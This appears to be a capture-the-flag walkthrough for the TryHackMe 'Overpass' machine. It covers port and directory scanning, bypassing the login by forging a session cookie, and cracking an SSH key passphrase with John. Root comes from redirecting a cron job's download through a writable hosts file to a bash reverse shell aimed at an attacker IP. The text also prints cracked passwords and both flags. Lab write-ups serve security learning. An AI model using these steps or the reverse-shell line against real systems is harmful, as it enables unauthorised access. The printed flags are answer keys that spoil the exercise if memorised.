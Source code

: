 # Hack the machine and get the flag in user.txt

`nmap -sS -Pn -p- -T4 $target -vv`
we can see that port 80 is open.  Looking at the website, looking at the source we can see a comment
```html
<p>People reuse the same password for multiple services. If you are one of them, you're risking your accounts being hacked by evil hackers.
</p>

<p>Overpass allows you to securely store different passwords for every service, protected using military grade 
<!--Yeah right, just because the Romans used it doesn't make it military grade, change this?--> 
cryptography to keep you safe.
</p>
```

I'm guessing at this stage it is referring to a [Caesar Cipher](https://en.wikipedia.org/wiki/Caesar_cipher)

Looking at the source code we find
`//Secure encryption algorithm from https://socketloop.com/tutorials/golang-rotate-47-caesar-cipher-by-47-characters-example`

This confirms a simple cipher.

Running the application and creating a password adds a file `~/.overpass` that contains the passwords

`gobuster dir --url http://$target -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 40`
reveals an admin portal returned

Trying admin / admin and a few credentials, fail.
Attempted SQL injection but doesn't return anything apart from `incorrect credentials` so suspect it isn't vulnerable to that.

Looking at the logon page source, we see references to `main.js`, `login.js`, and `cookie.js`

`main.js` contains `Hellow World` which we can see in the browser console.
`login.js` contains the logon component.
At the bottom it shows the if else for the login.  On failed login, the `statusOrCookie` is `Incorrect credentials`.  On a successful login, the `SessionToken` is set to the value of `statusOrCookie`.

Using the browser console, create a cookie with a name of `SessionToken` and a value of `"value"` - essentially anything.  Reloading the page provides a successful authentication.

This page appears to give us an SSH private key for James

Saving the key and trying to ssh to the target fails as the key has a passphrase attached to it.

Use `ssh2john private.pem > out.hash'
then
`john --wordlist=rockyou.txt out.hash`

This gives us the password `james13`

Login using ssh `ssh james@$target -i private.pem`
password: `james13`

Grab the `user.txt`
`thm{65c1aaf000506e56996822c6281e6bf7}`

There is a `todo.txt` file with some information and a `overpass` database we can use.

Running `overpass` to `Retrieve All Passwords` gives us
`System saydrawnlyingpicture`
I expect this to be James's password

Trying to run `sudo` with this authenticates successfully but we are unable to run sudo.

Looking at history, env, sudo -l, find / -perm -u=s -type f 2>/dev/null, gtfobins, find / -writable -type d 2>/dev/null, provides no privesc methods
`/etc/crontab` has the buildscript running
`ps -aux` shows the user tryhackme running the web server, and `/etc/passwd` shows a tryhackme user.


The crontab is pulling `buildscript.sh` file from the website overpass.thm which is essentially localhost.  The `/etc/hosts` file is writable.

Lets try to redirect this to us and run remote code.

Create a listener on our machine `nc -vnlp 8080'
Create a directory structure `/tmp/downloads/src/`
Create a `buildscript.sh` file in the above folder containing
`bash -c 'exec bash -i &>/dev/tcp/10.4.18.254/8080 <&1'` changing the IP to your IP address
In the `/tmp/` folder run the following:
`sudo python3 -m http.server`
In the Target machine, modify the hosts file to point overpass.thm to your IP
We shortly see a connection downloading the build script
and our listener got a connection

From there we can grab the `root.txt`

`thm{7f336f8c359dbac18d54fdd64ea753bb}`